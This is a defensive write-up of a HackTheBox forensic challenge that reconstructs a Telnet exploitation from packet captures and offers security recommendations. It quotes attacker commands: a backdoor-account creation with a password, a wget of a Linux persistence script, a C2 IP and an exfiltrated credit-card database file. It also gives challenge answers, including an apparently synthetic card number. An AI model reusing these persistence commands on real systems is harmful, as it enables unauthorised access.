










# Telly - HackTheBox Sherlock Writeup



---

## Challenge Information

- **Challenge Name:** Telly
- **Difficulty:** Very Easy
- **Category:** SOC (Security Operations Center)
- **Author:** Saurabh Tomar
- **Global Rank:** As shown in banner
- **Verification URL:** [https://labs.hackthebox.com/achievement/sherlock/847519/1144](https://labs.hackthebox.com/achievement/sherlock/847519/1144)

---

## Scenario Overview

This Sherlock challenge involves investigating a security incident where an attacker exploited a vulnerability in the Telnet protocol to gain unauthorized access to a target server. The investigation requires analyzing network traffic captures to identify the exploitation timeline, attacker activities, persistence mechanisms, and data exfiltration.

---

## Skills Learned

Through this challenge, I gained hands-on experience in:

- **Network Traffic Analysis:** Using Wireshark to analyze packet captures and identify malicious activities
- **CVE Research:** Understanding and identifying specific vulnerabilities (CVE-2026-24061)
- **Incident Response:** Tracking attacker activities through network logs
- **Forensic Analysis:** Extracting and analyzing exfiltrated data from network captures
- **SOC Operations:** Following proper incident investigation procedures
- **Persistence Mechanism Detection:** Identifying backdoor accounts and C2 communications
- **Data Breach Investigation:** Analyzing compromised databases for compliance requirements

---

## Investigation Questions & Answers

### Question 1: CVE Identification
**What CVE is associated with the vulnerability exploited in the Telnet protocol?**



**Answer:** `CVE-2026-24061`

**Explanation:** By analyzing the network traffic and researching the Telnet vulnerability exploited in this incident, we identified CVE-2026-24061 as the specific vulnerability used by the attacker to gain initial access.

---

### Question 2: Exploitation Timestamp
**When was the Telnet vulnerability successfully exploited, granting the attacker remote root access on the target machine?**



**Answer:** `2026-01-27 10:39:28`

**Explanation:** By examining the Wireshark capture and filtering for Telnet traffic, we identified the exact timestamp when the exploitation occurred. The arrival time in the packet capture shows: `Jan 27, 2026 16:09:28.319357980 India Standard Time`, which converts to `2026-01-27 10:39:28` UTC.



---

### Question 3: Target Hostname
**What is the hostname of the targeted server?**



**Answer:** `backup-secondary`

**Explanation:** Within the Telnet session data, we found the Linux system banner that revealed the hostname: `Linux 6.8.0-90-generic (backup-secondary) (pts/1)`. This indicates the compromised server was named "backup-secondary".

---

### Question 4: Backdoor Account Creation
**The attacker created a backdoor account to maintain future access. What username and password were set for that account?**



**Answer:** `cleanupsvc:YouKnowWhoiam69`

**Explanation:** By analyzing the Telnet session commands, we discovered the attacker executed the following command to create a backdoor user:
```bash
sudo useradd -m -s /bin/bash cleanupsvc; echo "cleanupsvc:YouKnowWhoiam69" | sudo chpasswd
```
This created a user named "cleanupsvc" with the password "YouKnowWhoiam69" to maintain persistent access.

---

### Question 5: Persistence Script Download
**What was the full command the attacker used to download the persistence script?**



**Answer:** `wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh`

**Explanation:** The attacker downloaded a persistence script called "linper.sh" from a GitHub repository using wget. This script is typically used to establish persistent remote access on compromised Linux systems.

---

### Question 6: C2 IP Address
**The attacker installed remote access persistence using the persistence script. What is the C2 IP address?**



**Answer:** `91.99.25.54`

**Explanation:** After executing the persistence script, we identified the Command and Control (C2) server IP address that the compromised system would communicate with. The IP address `91.99.25.54` was configured as the callback address for the persistent backdoor.

---

### Question 7: Data Exfiltration Timestamp
**The attacker exfiltrated a sensitive database file. At what time was this file exfiltrated?**



**Answer:** `2026-01-27 10:49:54`

**Explanation:** By analyzing HTTP traffic in the packet capture, we found the GET request for the database file:
```
192.168.72.131 - - [27/Jan/2026 10:49:54] "GET /credit-cards-25-blackfriday.db HTTP/1.1" 200 -
```
The attacker successfully exfiltrated the `credit-cards-25-blackfriday.db` file at this timestamp.

---

### Question 8: Credit Card Data Analysis
**Analyze the exfiltrated database. To follow compliance requirements, the breached organization needs to notify its customers. For data validation purposes, find the credit card number for a customer named Quinn Harris.**



**Answer:** `5312269047781209`

**Explanation:** To extract the database file from the packet capture, I used Wireshark's export feature:
- Navigate to: `File → Export Objects → HTTP`
- Export the `credit-cards-25-blackfriday.db` file
- Open and analyze the database to find Quinn Harris's credit card number

The database contained sensitive customer payment information, and Quinn Harris's credit card number was identified as `5312269047781209`.

---

## Investigation Methodology

### Tools Used
- **Wireshark:** Primary tool for network traffic analysis
- **Wireshark Important Columns:** 
  
- **Database Browser:** For analyzing the exfiltrated SQLite database
- **Text Editor:** For documenting findings

### Analysis Steps
1. **Initial Triage:** Opened the packet capture in Wireshark and identified Telnet traffic
2. **Timeline Construction:** Established the attack timeline from initial exploitation to data exfiltration
3. **Command Extraction:** Followed the Telnet stream to extract attacker commands
4. **Persistence Analysis:** Identified backdoor creation and C2 infrastructure
5. **Data Exfiltration:** Located and extracted the exfiltrated database file
6. **Impact Assessment:** Analyzed the compromised data for compliance reporting

---

## Key Findings & Recommendations

### Attack Chain Summary
1. **Initial Access:** Exploitation of CVE-2026-24061 in Telnet service
2. **Privilege Escalation:** Gained root access on backup-secondary server
3. **Persistence:** Created backdoor user "cleanupsvc" and installed persistence script
4. **Command & Control:** Established connection to C2 server at 91.99.25.54
5. **Data Exfiltration:** Stole customer credit card database

### Security Recommendations
- **Disable Telnet:** Replace with SSH for secure remote access
- **Patch Management:** Immediately patch CVE-2026-24061 on all systems
- **User Monitoring:** Audit all user accounts and remove "cleanupsvc" backdoor
- **Network Segmentation:** Isolate backup servers from direct internet access
- **Egress Filtering:** Block unauthorized outbound connections to prevent C2 communication
- **Data Encryption:** Encrypt sensitive databases at rest
- **Compliance:** Notify affected customers per PCI-DSS breach notification requirements

---

## Conclusion

This Sherlock challenge provided excellent hands-on experience in SOC operations and incident response. By analyzing network traffic, I successfully reconstructed the entire attack chain from initial exploitation through data exfiltration. The investigation demonstrates the critical importance of:

- Disabling legacy protocols like Telnet
- Maintaining comprehensive network logging
- Rapid vulnerability patching
- Proper security monitoring and incident response procedures

The skills gained from this challenge are directly applicable to real-world SOC analyst roles and security incident investigations.

---

**Author:** Saurabh Tomar  
**Date:** 2026  
**Platform:** HackTheBox Sherlock

